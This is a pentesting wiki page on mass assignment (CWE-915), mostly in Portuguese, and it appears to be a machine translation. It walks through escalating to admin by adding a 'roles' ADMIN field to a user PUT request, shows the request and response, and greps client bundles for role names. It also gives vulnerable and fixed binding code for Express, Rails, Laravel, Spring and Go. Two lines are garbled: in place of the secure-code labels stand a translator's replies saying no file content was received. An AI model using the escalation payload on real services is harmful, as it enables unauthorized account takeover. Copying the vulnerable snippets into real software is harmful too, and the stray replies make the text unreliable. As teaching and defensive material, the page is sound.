 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) acontece quando um API/controller recebe JSON fornecido pelo usuário e o vincula diretamente a um modelo/entidade no servidor sem uma lista explícita de campos permitidos (allow-list). Se propriedades privilegiadas como roles, isAdmin, status, ou ownership fields forem vinculáveis, qualquer usuário autenticado pode escalar privilégios ou alterar estados protegidos.

This is a Broken Access Control issue (OWASP A01:2021) que frequentemente permite vertical privilege escalation ao definir roles=ADMIN ou valores similares. Isso normalmente afeta frameworks que suportam binding automático do corpo da requisição para modelos de dados (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, etc.).

## 1) Finding Mass Assignment

Procure endpoints self-service que atualizem seu próprio perfil ou recursos similares:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Heurísticas que indicam mass assignment:
- A resposta ecoa campos gerenciados pelo servidor (por exemplo, roles, status, isAdmin, permissions) mesmo quando você não os enviou.
- Bundles do cliente contêm nomes/IDs de roles ou outros nomes de atributos privilegiados usados pela aplicação (admin, staff, moderator, internal flags), sugerindo um schema vinculável.
- Serializadores do backend aceitam campos desconhecidos sem rejeitá-los.

Fluxo de teste rápido:
1) Realize uma atualização normal com apenas campos seguros e observe a estrutura completa da resposta JSON (this leaks the schema).
2) Repita a atualização incluindo um campo privilegiado manipulado no body. Se a resposta persistir a alteração, provavelmente há mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry"
}
```
Resposta indica campos privilegiados:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": null,
"status": "ACTIVATED",
"filters": []
}
```
## 2) Exploitation – Role Escalation via Mass Assignment

Uma vez que você conheça o bindable shape, inclua a propriedade privileged na mesma requisição.

Exemplo: defina roles como ADMIN no seu próprio recurso de usuário:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": [
{ "id": 1, "description": "ADMIN role", "name": "ADMIN" }
]
}
```
Se a alteração de papel persistir na resposta, reautentique-se ou atualize tokens/claims para que o app emita uma sessão com contexto de admin e mostre a UI/endpoints privilegiados.

Notas
- Identificadores e formatos de roles são frequentemente enumerados a partir do client JS bundle ou dos API docs. Procure por strings como "roles", "ADMIN", "STAFF", ou IDs numéricos de roles.
- Se tokens contiverem claims (por exemplo, JWT roles), geralmente é necessário logout/login ou token refresh para perceber os novos privilégios.


## 3) Client Bundle Recon para Schema and Role IDs

- Inspecione minified JS bundles em busca de role strings e model names; source maps podem revelar DTO shapes.
- Procure por arrays/maps de roles, permissions, ou feature flags. Construa payloads que correspondam exatamente aos nomes de propriedades e ao aninhamento.
- Indicadores típicos: role name constants, dropdown option lists, validation schemas.

Handy greps against a downloaded bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```
## 4) Armadilhas de Frameworks e Padrões Seguros

A vulnerabilidade surge quando frameworks vinculam req.body diretamente a entidades persistentes. Abaixo estão erros comuns e padrões mínimos e seguros.

**Node.js (Express + Mongoose)**

Vulnerável:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
res.json(user);
});
```
Não recebi o conteúdo do arquivo. Cole aqui o texto (markdown) de src/pentesting-web/mass-assignment-cwe-915.md que deseja que eu traduza para português, ou confirme onde encontrá‑lo.
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```
**Ruby on Rails**

Vulnerável (sem strong parameters):
```rb
def update
@user.update(params[:user]) # roles/is_admin can be set by client
end
```
Correção (strong params + sem campos privilegiados):
```rb
def user_params
params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```
**Laravel (Eloquent)**

Vulnerável:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Você não forneceu o conteúdo a ser traduzido. Por favor cole o conteúdo do arquivo src/pentesting-web/mass-assignment-cwe-915.md (incluindo Markdown/HTML) que deseja que eu traduza para português.
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```
**Spring Boot (Jackson)**

Padrão vulnerável:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Correção: Mapear para um DTO com apenas os campos permitidos e reforçar a autorização:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Então copie os campos permitidos do DTO para a entidade no servidor e trate alterações de roles somente em handlers exclusivos para admin após as verificações RBAC. Use @JsonIgnore em campos privilegiados, se necessário, e rejeite propriedades desconhecidas.

Go (encoding/json)
- Garanta que campos privilegiados usem json:"-" e valide com uma DTO struct que inclua apenas os campos permitidos.
- Considere decoder.DisallowUnknownFields() e validação pós-bind das invariantes (roles não podem mudar em rotas de self-service).

## References

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
